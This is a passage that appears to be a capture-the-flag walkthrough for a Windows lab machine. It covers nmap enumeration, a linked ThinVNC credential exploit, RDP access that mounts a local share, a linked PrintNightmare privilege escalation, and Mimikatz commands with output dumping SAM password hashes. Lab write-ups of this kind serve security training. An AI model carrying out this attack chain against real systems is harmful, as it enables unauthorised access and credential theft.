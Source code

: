 # Atlas v1.4

## Enumeration

### NMAP Scan 

Check for running services and open ports. I realized after I ran the following command that I didn't need the `-A`. I changed my mind half way through typing it and didn't remove the `-A`.
```bash 
nmap -p- -Pn -sC -sV -A -vv -oN nmap.scan IPaddr
```

__*Ports*__
* 3389 Windows RDP
* 8080 ThinVNC

## Exploits

### Access - ThinVNC Exploit
> by Muirland Oracle

https://github.com/MuirlandOracle/CVE-2019-17662

[+] Credentials Found!
Username:       [REDACTED]
Password:       [REDACTED]

Now we can log into the ThinVNC service on port 8080. But since we have credentials, let's move into the Windows native RDP for a better interactive interface. 
```bash
xfreerdp /v:IPaddr /u:USERNAME /p:PASSWORD /cert:ignore +clipboard /dynamic-resolution /drive:share,/tmp
```

### Privilege Escalation - PrintNightmare
> by Caleb Stewart and John Hammond

https://github.com/calebstewart/CVE-2021-1675

### Post Exploitation - Mimikatz

Use this exploit to dump password hashes. Download mimikatz, move mimkatz to the tmp directory, and unzip the archive.
```bash
cd /tmp
mv ~/Downloads/mimikatz_trunk.zip .
unzip mimikatz_trunk.zip
```
Go back to the target computer. In RDP session use the elevated Command Shell to launch the exploit:
```bash
\\tsclient\share\mimikatz_trunk\x64\mimikatz.exe
```

If all goes well you get some nice ASCII art and a new mimikatz prompt. 

Before we run it, we usually need to execute two commands before dumping the hashes:
* `privilege::debug` - this obtains debug privileges which allows us to access other processes for "debuging" purposes.
* `token::elevate` - simply put, this takes us from our administrative shell with high privileges into a `SYSTEM` level shell with maximum privileges. This is something that we have a *right* to do as an administrator, but that is not usually possible using normal Windows operations

There are several commands that can be used to dump the hashes. We will use: `lsadump::sam`.
```bash
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

---

mimikatz # lsadump::sam
Domain : GAIA
SysKey : 36c8d26ec0df8b23ce63bcefa6e2d821
Local SID : S-1-5-21-1966530601-3185510712-10604624

SAMKey : 6e708461100b4988991ce3b4d8b1784e

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: [REDACTED]
```
